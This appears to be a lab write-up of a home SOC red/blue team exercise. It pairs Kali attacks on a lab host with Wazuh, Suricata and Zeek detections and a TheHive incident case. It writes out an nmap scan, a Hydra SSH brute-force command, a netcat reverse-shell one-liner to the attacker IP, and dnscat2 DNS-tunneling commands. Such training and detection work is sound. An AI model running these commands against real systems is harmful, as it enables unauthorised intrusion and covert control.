










# Red Team / Blue Team Exercises

## Objective
Simulate real-world cyberattacks (Red Team) and practice detection, analysis, and response (Blue Team) using your fully functional SOC lab, including port scanning, SSH brute force, reverse shell, and DNS tunneling detection.

## Key Learning Outcomes
- Attack simulation using Kali Linux
- Detection validation in Wazuh SIEM
- Zeek DNS log analysis for tunneling anomalies
- Custom rule creation for DNS tunneling detection
- Incident response case management in TheHive
- MITRE ATT&CK framework mapping

## Tools Used
| Tool | Purpose |
|------|---------|
| **Kali Linux** | Attacker machine (Red Team) |
| **Wazuh SIEM** | Alert generation and monitoring (Blue Team) |
| **Zeek** | Network traffic and DNS analysis |
| **Suricata** | Signature-based detection |
| **dnscat2** | DNS tunneling tool |
| **TheHive** | Incident response case management |

---

## Lab Architecture

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                              RED TEAM (Kali)                                │
│                           (192.168.2.103 / Attacker)                        │
│  ┌─────────────────────────────────────────────────────────────────────┐    │
│  │  ● Nmap Scanning (T1046)                                            │    │
│  │  ● Hydra Brute Force (T1110)                                        │    │
│  │  ● Netcat Reverse Shell (T1059)                                     │    │
│  │  ● dnscat2 DNS Tunneling (T1572)                                    │    │
│  └─────────────────────────────────────────────────────────────────────┘    │
└─────────────────────────────────────────────────────────────────────────────┘
                                      │
                                      │ Attack Traffic
                                      │
                                      ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│                           BLUE TEAM (SOC Lab)                               │
│  ┌─────────────────────────────────────────────────────────────────────┐    │
│  │  ● Wazuh SIEM (Alert Generation)                                    │    │
│  │  ● Zeek NSM (DNS Log Analysis)                                      │    │
│  │  ● Suricata IDS (Signature Detection)                               │    │
│  │  ● TheHive (Incident Response)                                      │    │
│  └─────────────────────────────────────────────────────────────────────┘    │
└─────────────────────────────────────────────────────────────────────────────┘
                                      │
                                      │ Monitored Endpoint
                                      │
                                      ▼
┌─────────────────────────────────────────────────────────────────────────────┐
│                         Ubuntu Client (Target)                              │
│                           (192.168.2.10)                                    │
│  ┌─────────────────────────────────────────────────────────────────────┐    │
│  │  ● Wazuh Agent                                                      │    │
│  │  ● Zeek Agent (DNS Logs)                                            │    │
│  │  ● Apache, SSH, FTP services                                        │    │
│  └─────────────────────────────────────────────────────────────────────┘    │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## Tasks Performed

### Attack 1: Network Reconnaissance (Port Scan)

#### Red Team (Kali Linux)

**Command:**
```bash
sudo nmap -sS -sV -p- 192.168.2.10
```

**Port Scan Execution:**

*Kali terminal showing Nmap port scan against Ubuntu Client (192.168.2.10).*

#### Blue Team (Detection)

**Wazuh Dashboard – Port Scan Alerts:**

*Wazuh dashboard showing port scan detection alerts from Suricata (ET SCAN).*

| Detection | Rule ID | Level |
|-----------|---------|-------|
| ET SCAN Nmap | 140001 | 12 |

---

### Attack 2: SSH Brute Force

#### Red Team (Kali Linux)

**Command:**
```bash
hydra -l root -P passlist.txt ssh://192.168.2.10 -t 1 -f
```

**SSH Brute Force Execution:**

*Kali terminal showing Hydra brute force attack against SSH service on Ubuntu Client.*

#### Blue Team (Detection)

**Wazuh Dashboard – Brute Force Alerts:**

*Wazuh dashboard showing SSH brute force detection alerts including authentication failures and maximum attempts exceeded.*

| Alert | Rule ID | Level |
|-------|---------|-------|
| sshd: authentication failed | 5760 | 5 |
| Maximum authentication attempts exceeded | 5758 | 8 |
| PAM: User login failed | 5503 | 5 |

---

### Attack 3: Reverse Shell (Netcat)

#### Red Team (Kali Linux)

**Listener (Attacker):**
```bash
nc -lvnp 4444
```

**Reverse Shell Execution (Target):**
```bash
nc -e /bin/bash 192.168.2.103 4444
```

**Reverse Shell Connection:**

*Kali terminal showing successful reverse shell connection from Ubuntu Client (192.168.2.10) to Kali (192.168.2.103) on port 4444.*

#### Blue Team (Detection)

**Wazuh Dashboard – Reverse Shell Detection:**

*Wazuh dashboard showing custom rule 100010 alert for netcat process detection (reverse shell indicator).*

| Custom Rule | Description | Level |
|-------------|-------------|-------|
| 100010 | Suspicious process: Netcat detected - Possible reverse shell | 10 |

---

### Attack 4: DNS Tunneling

#### Red Team (Kali Linux)

**dnscat2 Server Setup:**
```bash
cd ~/dnscat2/server
sudo ruby ./dnscat2.rb --dns host=192.168.2.103,port=53
```

**dnscat2 Server:**

*Kali terminal showing dnscat2 DNS server listening for tunneling connections with security key generated.*

**dnscat2 Client Connection (Ubuntu Client):**
```bash
cd ~/dnscat2/client
./dnscat --dns server=192.168.2.103,port=53
```

**dnscat2 Client:**

*Ubuntu Client terminal showing successful dnscat2 connection to Kali server with encrypted session established.*

#### Blue Team (Detection)

**Zeek DNS Monitoring – Tunneling Detection:**

*Wazuh dashboard showing Zeek DNS tunneling detection (Rule 140203) for long random subdomain queries characteristic of dnscat2 traffic.*

| Detection | Rule ID | Level | Description |
|-----------|---------|-------|-------------|
| DNS Tunneling | 140203 | 13 | Zeek: Potential DNS tunneling detected - long query |

---

## Incident Response with TheHive

### Case Created

**Case Title:** Multi-Stage Attack Campaign - Port Scan, SSH Brute Force, Reverse Shell, DNS Tunneling

| Field | Value |
|-------|-------|
| **Severity** | Critical |
| **TLP** | Amber |
| **Tags** | `port-scan`, `ssh-bruteforce`, `reverse-shell`, `dns-tunneling`, `red-team` |

### Observables Added

| Type | Value | Tags |
|------|-------|------|
| IP Address | `192.168.2.103` | `attacker`, `kali`, `source` |
| IP Address | `192.168.2.10` | `victim`, `ubuntu`, `target` |
| Port | `22` | `ssh`, `targeted` |
| Port | `80` | `http`, `targeted` |
| Port | `4444` | `reverse-shell`, `netcat` |

### Tasks Completed

- Triage
- Containment - Network
- Containment - DNS
- Eradication
- Investigation
- Recovery
- Documentation

### MITRE ATT&CK Mapping

| Attack | MITRE Technique ID | Tactic |
|--------|--------------------|--------|
| Port Scan | T1046 – Network Service Scanning | Reconnaissance |
| SSH Brute Force | T1110 – Brute Force | Credential Access |
| Reverse Shell | T1059 – Command and Scripting Interpreter | Execution |
| DNS Tunneling | T1572 – Protocol Tunneling | Command & Control |

### Incident Case Resolution

**TheHive Incident Case:**

*TheHive case showing multi-stage attack investigation with all tasks completed and MITRE ATT&CK mapping documented.*

| Field | Value |
|-------|-------|
| **Status** | Closed |
| **Resolution** | True Positive |
| **Impact** | Yes |
| **Summary** | Four attack techniques successfully detected and contained. Port scan (T1046), SSH brute force (T1110), reverse shell (T1059), and DNS tunneling (T1572). Attacker IP blocked, malicious domain sinkholed, reverse shell terminated. All tasks completed. No data loss or system compromise. |

---

## MITRE ATT&CK Framework Mapping

| Detected Activity | MITRE Technique ID | Tactic |
|-------------------|--------------------|--------|
| Nmap Port Scan | T1046 – Network Service Scanning | Reconnaissance |
| Hydra SSH Brute Force | T1110 – Brute Force | Credential Access |
| Netcat Reverse Shell | T1059 – Command and Scripting Interpreter | Execution |
| dnscat2 DNS Tunneling | T1572 – Protocol Tunneling | Command & Control |

---

## Security Concepts Demonstrated

- Attack simulation using Kali Linux
- Multi-layered detection (Zeek, Suricata, Wazuh)
- DNS tunneling detection via query length analysis
- Alert correlation and analysis
- MITRE ATT&CK framework mapping
- Incident response case management
- Complete detection-to-response workflow

---

## Key Observations

- **Port Scan:** Nmap scan detected by Suricata (ET SCAN) with 180+ connection attempts
- **SSH Brute Force:** Hydra attack generated multiple authentication failure alerts (Rule 5760, 5758)
- **Reverse Shell:** Netcat process detected by custom rule 100010 immediately upon execution
- **DNS Tunneling:** dnscat2 traffic detected by Rule 140203 based on long random subdomain queries (45+ characters)

---

## Skills Gained

- Attack simulation using Kali Linux 
- Multi-layered detection (Zeek, Suricata, Wazuh) 
- DNS tunneling detection via query length analysis 
- Alert correlation and analysis 
- MITRE ATT&CK framework mapping 
- Incident response case management 
- Complete detection-to-response workflow 

---
